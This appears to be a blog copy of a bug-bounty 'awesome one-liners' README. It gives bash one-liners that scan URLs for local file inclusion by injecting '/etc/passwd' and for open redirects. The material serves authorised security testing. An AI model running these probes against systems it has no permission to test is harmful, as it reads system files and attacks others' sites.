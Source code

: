 ```yaml
---
title: "Awesome One-liner Bug Bounty"
date: 2022-08-19 10:50:00 +07:00
categories: [WriteUps]
tags: [bash, awesome, bug-bounty, recon, bugbounty, hacktoberfest, one-liners, bugbountytips, liner-scripts]
image: 
---
```


# Awesome One-liner Bug Bounty [![Awesome](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> A collection of awesome one-liner scripts especially for bug bounty.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

## Definitions

This section defines specific terms or placeholders that are used throughout one-line command/scripts.

- 1.1. "**HOST**" defines one hostname, (sub)domain, or IP address, e.g. replaced by `internal.host`, `domain.tld`, `sub.domain.tld`, or `127.0.0.1`.
- 1.2. "**HOSTS.txt**" contains criteria 1.1 with more than one in file.
- 2.1. "**URL**" definitely defines the URL, e.g. replaced by `http://domain.tld/path/page.html` or somewhat starting with HTTP/HTTPS protocol.
- 2.2. "**URLS.txt**" contains criteria 2.1 with more than one in file.
- 3.1. "**FILE.txt**" or "**FILE**`{N}`**.txt**" means the files needed to run the command/script according to its context and needs.
- 4.1. "**OUT.txt**" or "**OUT**`{N}`**.txt**" means the file as the target storage result will be the command that is executed.

---

### Local File Inclusion
> @dwisiswant0

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
